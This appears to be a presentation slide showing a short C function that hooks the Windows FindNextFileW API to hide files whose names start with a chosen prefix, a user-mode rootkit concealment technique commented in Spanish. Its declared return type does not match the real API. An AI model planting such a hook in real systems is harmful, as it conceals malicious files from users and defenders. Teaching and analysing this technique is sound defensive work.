

HANDLE __stdcall miFindNextFileW(HANDLE hFindFile,LPWIN32_FIND_DATAW lpFindFileData)
{
// Ocultamos los archivos que empiecen por el prefijo indicado
HANDLE hand;
char ascStr[611];
do
{
hand = pBuffFN(hFindFile,lpFindFileData);
WideCharToMultiByte(CP_ACP, 0, lpFindFileData->cFileName, -1, ascStr, 611, NULL, NULL);
}while (strncmp(ascStr,Prefijo,strlen(Prefijo)) == 0 && hand != NULL);
return hand;
}